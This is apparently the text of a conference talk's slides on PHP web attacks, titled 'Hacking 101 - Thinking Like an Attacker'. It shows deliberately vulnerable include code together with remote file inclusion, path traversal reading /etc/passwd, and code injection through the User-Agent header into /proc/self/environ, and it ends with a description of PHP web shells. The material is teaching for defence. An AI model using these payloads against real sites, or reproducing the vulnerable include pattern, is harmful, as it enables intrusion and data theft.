

Hacking 101 - Thinking Like an Attacker - Andrew Carter
@AndrewCarterUK
Hacking 101
Thinking Like an Attacker
@AndrewCarterUK
This Talk
Demonstrations
Examining Case Studies
Learning Lessons
Example 1
index.php
<?php
include $_GET['include'];
http://example.com/index.php?include=contact.html
...
include 'contact.html';
http://example.com/index.php?include=http://othersite.com/nasty-script.txt
...
include 'http://othersite.com/nasty-script.txt';

This is a remote file inclusion (RFI) attack
Example 2
.htaccess
RewriteEngine on
RewriteRule ^/([^/\.]+)/?$ index.php?page=$1 [L]
index.php
<?php
include 'pages/' . $_GET['page'] . '.php';
http://example.com/about
...
http://example.com/index.php?page=about
...
include 'pages/about.php';
What attacks are possible?
Denial of Service
http://example.com/?page=../index
...
include 'pages/../index.php';
...
include 'index.php';
Local File Inclusion (LFI)
http://example.com/?page=../scripts/clean-database
...
include 'pages/../scripts/clean-database.php';
...
include 'scripts/clean-database.php';
http://example.com/?page=../../../../etc/passwd%00
...
include 'pages/../../../../etc/passwd\0.php';
...
include '/etc/passwd';
Can we get more dangerous?
/proc/self/environ
DOCUMENT_ROOT=/home/user/public_html
GATEWAY_INTERFACE=CGI/1.1
HTTP_ACCEPT=text/html, application/xml;q=0.9, application/xhtml+xml, image/png, image/jpeg, image/gif, image/x-xbitmap, */*;q=0.1
HTTP_COOKIE=PHPSESSID=134cc7261b341231b9594844ac2ad7ac
HTTP_HOST=www.website.com
HTTP_USER_AGENT=Opera/9.80 (Windows NT 5.1; U; en) Presto/2.2.15 Version/10.00
...
GET /?page=../../../../../proc/self/environ HTTP/1.1
Host: example.com
User-Agent: <?php echo 'uh oh'; ?>
/proc/self/environ
DOCUMENT_ROOT=/home/user/public_html
GATEWAY_INTERFACE=CGI/1.1
HTTP_ACCEPT=text/html, application/xml;q=0.9, application/xhtml+xml, image/png, image/jpeg, image/gif, image/x-xbitmap, */*;q=0.1
HTTP_COOKIE=PHPSESSID=134cc7261b341231b9594844ac2ad7ac
HTTP_HOST=www.website.com
HTTP_USER_AGENT=<?php echo 'uh oh'; ?>
...
Where else can we inject PHP?
Uploaded files
Log files
Things that help attackers?
Error messages reveal directory structure and software
What can we inject?
PHP Shells
- Attackers' back door into system
- Included on each request or saved in web root
- MySQL queries from localhost
- Can read, write and explore
- Can upload more files
- This is end game
c99.php (40.6 KB)

Any questions?
@AndrewCarterUK
http://joind.in/talk/view/16471
http://phpfastcgi.github.io
http://github.com/PHPFastCGI/FastCGIDaemon
http://github.com/PHPFastCGI/SpeedfonyBundle